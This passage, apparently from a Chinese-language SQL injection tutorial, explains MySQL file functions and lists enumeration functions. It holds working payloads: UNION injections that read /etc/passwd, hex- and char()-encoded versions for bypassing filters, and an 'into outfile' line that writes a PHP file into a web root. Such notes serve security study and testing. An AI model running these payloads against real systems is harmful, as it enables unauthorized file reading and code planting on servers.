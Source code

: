 `load_file`函数能快速读取文件，但是文件位置必须在服务器上，要以绝对路径获取，而且用户要有`FILE`权限，文件容量也必须小于`max_allowed_packet`字节（默认16MB，最大1GB）

```mysql
union select 1,load_file('/etc/passwd'),3 #
// 16进制绕过
union select 1,load_file(0x2F6563742F706173737764),3 #
// 还能使用ascii
union select 1,load_file(char(47,101,99,116,47,112,97,115,115,119,100)),3 #
```

(2)into outfile 写文件操作

与load_file()一样，需要FILE权限，且必须为绝对路径。

```mysql
select '<?php phpinfo();?>' into outfile 'c:\\wwwroot\1.php'
```

(3)连接字符串

MySQL查询中，如果需要一次查询多个数据，可以使用`concat()`,`concat_ws()`，我一般是将多列输出拼接成一列输出。

```mysql
concat(user(),0x2c,database(),0x2c,version())
```

常用MySQL函数：

|         函数         | 说明                                                 |
| :------------------: | ---------------------------------------------------- |
|        length        | 字符串长度                                           |
|      substring       | 截取字符串长度                                       |
|        ascii         | 返回ASCII码                                          |
|         hex          | 字符串转十六进制                                     |
|         now          | 当前系统时间                                         |
|        unhex         | hex反向操作                                          |
|       floor(x)       | 取地板值，                                           |
|         md5          | 返回md5值                                            |
|     group_concat     | 返回来自一个组的连接结果，将几列合并成一列的数据输出 |
|      @@datadir       | 数据库路径                                           |
|      @@basedir       | MySQL安装路径                                        |
| @@Version_compile_os | 操作系统                                             |
|         user         | 用户名                                               |
|     current_user     | 当前用户名                                           |
|     system_user      | 系统用户名                                           |
|       database       | 数据库名                                             |
|       version        | 数据库版本                                           |
